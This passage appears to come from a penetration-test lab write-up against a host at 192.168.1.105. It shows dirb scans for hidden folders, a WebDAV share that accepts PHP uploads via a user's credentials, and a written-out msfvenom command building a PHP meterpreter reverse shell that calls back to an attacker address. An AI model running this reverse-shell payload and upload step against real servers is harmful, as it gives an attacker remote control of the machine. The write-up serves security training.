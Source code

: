 	# Dirb scan to find hidden folders within the hidden folder
	> dirb http://192.168.1.105/company_folders/secret_folder
	> dirb http://192.168.1.105/webdav 
	
	Nothing found running dirb again but worth it to try.


##### Supported filetypes in php in the local shared webdav folder 
![Network Diagram Image](images/davfolder.png)

Here you can see the webdav can be accessed by ways: over http using burp or by searching in your local filesystem by making a call to dav://192.168.1.105/webdav and using ryans credentials.

Since the folder allows drag and drop uploads of any file type including php, we are able to quickly upload a staged reverse shell. 
	
	`msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.1.90 LPORT=4444 > shell4.php`
	
	- no architecture need be specified: -a 
	- no encoding need be specified: -e 

##### Burp access. 